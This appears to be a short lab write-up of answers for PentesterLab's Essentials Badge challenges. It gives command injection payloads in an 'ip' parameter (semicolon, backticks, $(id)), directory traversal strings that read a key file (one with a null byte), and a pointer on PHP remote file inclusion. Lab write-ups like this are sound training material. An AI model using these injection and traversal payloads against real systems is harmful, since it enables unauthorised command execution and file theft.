 # Essentials Badge

## Command Execution

### Command Execution - 1

```
?ip=127.0.0.1;id
```

### Command Execution - 2

```
?ip=`id`
```

### Command Execution - 3

In this challenge, the developer fixed the previous issue and is now filtering on even more special characters. However, the developer forgot that you can use $(command) to run a command.

```
?ip=$(id)
```

## Directory Traversal

### Directory Traversal - 1

```
file.php?file=../../../../../../../pentesterlab.key
# This had no checks in place
```

### Directory Traversal -2

```
file.php?file=/var/www/../../../../../../../pentesterlab.key
# This was setting the start directory.
```

### Directory Traversal -3

```
/file.php?file=../../../../../../../..//pentesterlab.key%00
# This was adding an extension to the required file.
```

## File Inclusion

Caused by require, 'require\_once', 'include', or 'include once' in PHP\
To include remote files, use the following URL:\
[https://assets.pentesterlab.com/test\_include\_system.txt](https://assets.pentesterlab.com/test\_include\_system.txt)&#x20;
